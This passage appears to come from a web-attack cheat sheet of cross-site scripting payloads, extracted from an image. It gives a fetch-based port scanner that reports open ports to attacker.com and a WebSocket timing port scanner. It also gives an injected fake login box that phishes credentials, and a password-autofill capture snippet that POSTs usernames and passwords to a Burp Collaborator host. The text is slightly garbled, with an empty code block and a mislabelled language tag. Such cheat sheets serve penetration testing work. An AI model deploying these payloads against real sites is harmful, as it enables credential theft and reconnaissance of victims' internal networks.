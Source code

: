 ```javascript
```

### Port Scanner \(fetch\)

```javascript
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = http://attacker.com/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```

### Port Scanner \(websockets\)

```python
var ports = [80, 443, 445, 554, 3306, 3690, 1234];
for(var i=0; i<ports.length; i++) {
    var s = new WebSocket("wss://192.168.1.1:" + ports[i]);
    s.start = performance.now();
    s.port = ports[i];
    s.onerror = function() {
        console.log("Port " + this.port + ": " + (performance.now() -this.start) + " ms");
    };
    s.onopen = function() {
        console.log("Port " + this.port+ ": " + (performance.now() -this.start) + " ms");
    };
}
```

_Short times indicate a responding port_ _Longer times indicate no response_

### Box to as for credentials

```markup
<style>::placeholder { color:white; }</style><script>document.write("<div style='position:absolute;top:100px;left:250px;width:400px;background-color:white;height:230px;padding:15px;border-radius:10px;color:black'><form action='https://example.com/'><p>Your sesion has timed out, please login again:</p><input style='width:100%;' type='text' placeholder='Username' /><input style='width: 100%' type='password' placeholder='Password'/><input type='submit' value='Login'></form><p><i>This login box is presented using XSS as a proof-of-concept</i></p></div>")</script>
```

### Auto-fill passwords capture

```javascript
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
